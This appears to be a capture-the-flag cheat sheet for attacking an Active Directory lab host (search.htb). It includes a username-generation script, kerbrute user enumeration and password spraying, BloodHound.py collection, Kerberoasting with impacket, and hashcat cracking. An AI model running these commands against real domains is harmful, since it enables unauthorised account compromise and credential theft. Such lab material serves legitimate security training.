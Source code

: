 # BloodHound.py

## Get the domain and host name

```bash
$ cme smb 10.10.11.129
```

## Enumerate usernames

### Create usernames

Create a file with the names of staff → `names.txt`:

```bash
John Doe
Alice Stewart
...
```

Python script to create usernames based on `names.txt`:

```python script.py
#!/usr/bin/env python
import sys
import os.path

if __name__ == "__main__": 
    if len(sys.argv) != 2:
        print("usage: {} names.txt".format((sys.argv[0])))
        sys.exit(0)

    if not os.path.exists(sys.argv[1]): 
        print("{} not found".format(sys.argv[1]))
        sys.exit(0)

    for line in open(sys.argv[1]):
        name = ''.join([c for c in line if  c == " " or  c.isalpha()])

        tokens = name.lower().split()

        # skip empty lines
        if len(tokens) < 1: 
            continue

        fname = tokens[0]
        lname = tokens[-1]

        print(fname + lname)           # johndoe
        print(lname + fname)           # doejohn
        print(fname + "." + lname)     # john.doe
        print(lname + "." + fname)     # doe.john
        print(lname + fname[0])        # doej
        print(fname[0] + lname)        # jdoe
        print(lname[0] + fname)        # djoe
        print(fname[0] + "." + lname)  # j.doe
        print(lname[0] + "." + fname)  # d.john
        print(fname)                   # john
        print(lname)                   # joe
```

Just run: `python script.py names.txt`

It will create a list of usernames combining the Name and Lastname.

### Check for valid usernames with kerbrute

You need to be time sync with the target:

```python
$ sudo ntpupdate 10.10.11.129
```

Bruteforce usernames using kerbrute:

```python
$ ./kerbrute userenum --dc 10.10.11.129 -d search.htb users.txt
```

### Password spray with kerbrute

```python
$ ./kerbrute passwordspray --dc 10.10.11.129 -d search.htb users.txt 'SecretPassword'
```

## More enumeration using credentials

### Bloodhound Python

Install:

```python
git clone https://github.com/fox-it/BloodHound.py.git
```

Usage:

```python
python3 bloodhound.py -u hope.sharp -p 'SecretPassword' -d search.htb -ns 10.10.11.129 -c All
```

Start Neo4j:

```python
sudo neo4j console
```

### Bloodhound

[https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound)

- Download the latest release

```bash
$ wget https://github.com/BloodHoundAD/BloodHound/releases/download/4.1.0/BloodHound-linux-x64.zip
$ unzip BloodHound-linux-x64.zip
$ cd BloodHound-linux-x64
$ chmod +x BloodHound
$ ./BloodHound
```

Go to Upload Data: Import the `.json` files create by Bloodhound.py.

**FIND KERBEROASTABLE ACCOUNTS**

BloodHound: ANALYSIS → QUERIES  
- Find all Domains Admins
    - Mark users as high value if not yet
- List all Kerberoastable Accounts
    *Found `web-svc` account.*

Use credentials and impacket to extract the hash of Kerberoastable users:

```bash
$ GetUsersSPNs.py search.htb/hope.sharp:SecretPassword
$ GetUsersSPNs.py search.htb/hope.sharp:SecretPassword -outputfile kerbroast.hash
```

Crack the hash:

```bash
$ hashcat kerbroast.hash /usr/share/wordlists/rockyou.txt
```

If password is cracked, mark the `web-svc` user as OWNED and run the queries again.
